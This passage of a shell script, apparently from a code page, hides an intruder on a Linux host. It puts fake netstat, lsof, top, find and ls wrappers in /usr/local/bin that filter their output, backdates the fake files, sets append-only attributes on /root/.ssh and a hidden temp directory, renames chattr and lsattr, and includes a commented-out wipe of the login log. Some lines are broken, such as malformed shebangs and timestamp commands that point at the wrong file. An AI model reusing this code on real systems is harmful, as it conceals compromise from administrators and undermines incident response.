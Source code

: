 ```
EOF

chmod +x /usr/local/bin/netstat && touch -acmr /bin/netstat /usr/local/bin/netstat

# lsof
touch /usr/local/bin/lsof

cat <<EOF >> /usr/local/bin/lsof
# !/bin/bash
/bin/lsof \$@ | grep -Ev 'name|address|port'
/usr/bin/lsof \$@ | grep -Ev 'name|address|port'
EOF

chmod +x /usr/local/bin/lsof && touch -acmr /bin/lsof /usr/local/bin/lsof

# top
touch /usr/local/bin/top

cat <<EOF >> /usr/local/bin/top
# !/bin/bash
/bin/top \$@ | grep -Ev 'name|address|port'
/usr/bin/top \$@ | grep -Ev 'name|address|port'
EOF

chmod +x /usr/local/bin/top && touch -acmr /bin/top /usr/local/bin/lsof

# find
touch /usr/local/bin/find

cat <<EOF >> /usr/local/bin/find 
# !/bin/bash
/bin/find \$@ | grep -Ev 'name|address|port'
/usr/bin/find \$@ | grep -Ev 'name|address|port'
EOF

chmod +x /usr/local/bin/find && touch -acmr /bin/find /usr/local/bin/lsof

# ls
touch /usr/local/bin/ls

cat <<EOF >> /usr/local/bin/ls
# !/bin/bash
/bin/ls \$@ | grep -Ev 'name|address|port'
/usr/bin/ls \$@ | grep -Ev 'name|address|port'
EOF

chmod +x /usr/local/bin/ls && touch -acmr /bin/ls /usr/local/bin/ls

# chattr & lsattr
# !/bin/bash
mkdir /tmp/.tmp/
chattr +a /tmp/.tmp/
chattr +a /root/.ssh/
mv /usr/bin/chattr /usr/bin/cht
mv /usr/bin/lsattr /usr/bin/lst

# last
# echo "" > /var/log/wtmp
```
